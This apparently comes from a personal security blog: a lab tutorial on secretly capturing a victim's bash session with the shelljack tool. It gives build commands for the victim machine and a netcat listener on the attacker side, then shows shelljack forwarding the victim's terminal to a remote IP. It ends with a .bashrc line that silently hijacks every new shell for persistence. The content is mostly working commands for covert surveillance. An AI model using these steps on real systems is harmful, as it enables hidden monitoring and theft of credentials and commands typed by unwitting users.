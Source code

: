 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp 9999
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:9999 $$
```

![](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc_1.png)

Attacker:

![](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n 192.168.3.3:9999 $$ &>/dev/null
```
